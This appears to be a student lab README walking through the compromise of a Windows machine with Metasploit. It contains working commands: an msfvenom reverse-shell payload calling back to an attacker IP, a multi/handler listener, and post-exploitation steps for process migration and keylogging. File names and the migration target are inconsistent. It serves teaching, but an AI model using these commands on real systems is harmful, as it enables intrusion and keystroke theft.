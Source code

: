 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## PROGRAM:

Find the attackers ip address using ifconfig

![image](https://github.com/R-Guruprasad/Compromising-windows-using-Metasploit/assets/119390308/5ef2d834-a459-41c8-853c-4d90f8e18a3c)

Create a malicious executable file fun.exe using msenom command

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > malware.exe

![image](https://github.com/R-Guruprasad/Compromising-windows-using-Metasploit/assets/119390308/e25f8878-cafd-4e2c-b17c-4cd73fb9cc1b)

copy the malware.exe into the apache /var/www/html folder

![image](https://github.com/R-Guruprasad/Compromising-windows-using-Metasploit/assets/119390308/4fff02b1-eaa0-40f5-b869-e8ef8af62515)

Start apache server

sudo systemctl apache2 start

![image](https://github.com/R-Guruprasad/Compromising-windows-using-Metasploit/assets/119390308/c9008388-1884-4c35-81a1-ce3b44063975)

Check the status of apache2

![image](https://github.com/R-Guruprasad/Compromising-windows-using-Metasploit/assets/119390308/7b19b8c8-540d-46b9-981b-3631a176420b)

Invoke msfconsole:

![image](https://github.com/R-Guruprasad/Compromising-windows-using-Metasploit/assets/119390308/7fd888bd-ad4b-4b1c-9425-8d0336d2291e)
![image](https://github.com/R-Guruprasad/Compromising-windows-using-Metasploit/assets/119390308/21ea98df-d39a-4a59-84b0-b67832beb5fe)

use multi/handler

![image](https://github.com/R-Guruprasad/Compromising-windows-using-Metasploit/assets/119390308/9d8ad938-7991-49a1-8bdd-8f9216dda092)

set PAYLOAD windows/meterpreter/reverse_tcp

set LHOST 0.0.0.0

exploit

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:

http://192.168.1.2/fun.exe

The file "fun.exe" downloads.

![image](https://github.com/R-Guruprasad/Compromising-windows-using-Metasploit/assets/119390308/879eb0f3-d176-4fff-ae72-815ac36c114a)

Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit

![image](https://github.com/R-Guruprasad/Compromising-windows-using-Metasploit/assets/119390308/d2b45fcb-e94a-4c02-af80-6931f49922b3)

To see a list of processes, at the meterpreter > prompt, execute this command:

ps ⇒ can see the fun.exe process running with pid 1156

![image](https://github.com/R-Guruprasad/Compromising-windows-using-Metasploit/assets/119390308/56c98758-1c88-4dac-953c-b19d958957b1)

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process.

At the meterpreter > prompt, execute this command:

migrate -N explorer.exe

at meterpreter > prompt, execute this command:

netstat

A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.

Notice the "PID/Program name" value for this connection, which is redacted

![image](https://github.com/R-Guruprasad/Compromising-windows-using-Metasploit/assets/119390308/6f12e8b4-6764-4d82-91d9-ff855ae9a2f6)

Post Exploitation

The target is now owned. Following are meterpreter commands for key capturing in the target machine

keyscan_start Begins capturing keys typed in the target.

On the Windows target, open Notepad and type in some text, such as your name.

![image](https://github.com/R-Guruprasad/Compromising-windows-using-Metasploit/assets/119390308/67306211-b1c6-48b5-9dee-6ab4cacb4aa4)

keyscan_dump Shows the keystrokes captured so far

![image](https://github.com/R-Guruprasad/Compromising-windows-using-Metasploit/assets/119390308/c274affd-4e9b-45c9-8233-3a94e1262d59)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
